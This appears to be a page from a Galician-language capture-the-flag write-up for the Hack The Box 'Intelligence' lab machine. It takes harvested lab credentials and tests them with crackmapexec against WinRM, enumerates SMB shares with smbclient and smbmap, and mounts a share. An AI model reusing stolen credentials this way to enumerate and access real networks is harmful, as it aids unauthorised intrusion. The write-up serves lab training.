 \documentclass[a4paper]{article}
\begin{document}
        \vspace{0.2cm}

Temos novas credenciais: \textbf{Ted.Graves:Mr.Teddy}
Agora coas novas credenciais, imos comprobar:
\begin{itemize}
\item winrm - crackmapexec, evil-winrm
\item smb - smbclient, smbmap, crackmapexec
\end{itemize}

\clearpage
        \begin{lstlisting}[language=Bash, caption=Acceso ao sistema: winrm, linewidth=17.8cm]
$ crackmapexec winrm 10.10.10.248 -u'Ted.Graves' -p'Mr.Teddy' 
SMB         10.10.10.248    5985   DC               [*] Windows 10.0 Build 17763 (name:DC) (domain:intelligence.htb)
HTTP        10.10.10.248    5985   DC               [*] http://10.10.10.248:5985/wsman
WINRM       10.10.10.248    5985   DC               [-] intelligence.htb\Ted.Graves:Mr.Teddy
               
$ smbclient -U'intelligence.htb/Ted.Graves%Mr.Teddy' -L  //10.10.10.248 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	IT              Disk      
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
	Users           Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.248 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

$ smbmap -H 10.10.10.248 -u 'Ted.Graves' -p'Mr.Teddy'         
[+] IP: 10.10.10.248:445	Name: dc.intelligence.htb                               
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
	IT                                                	READ ONLY	
	NETLOGON                                          	READ ONLY	Logon server share 
	SYSVOL                                            	READ ONLY	Logon server share 
	Users                                             	READ ONLY	
                                                                                  
$ sudo mount -t cifs //10.10.10.248/Users /mnt -o username=Ted.Graves,password=Mr.Teddy,domain=intelligence.htb\end{lstlisting}
\end{document}
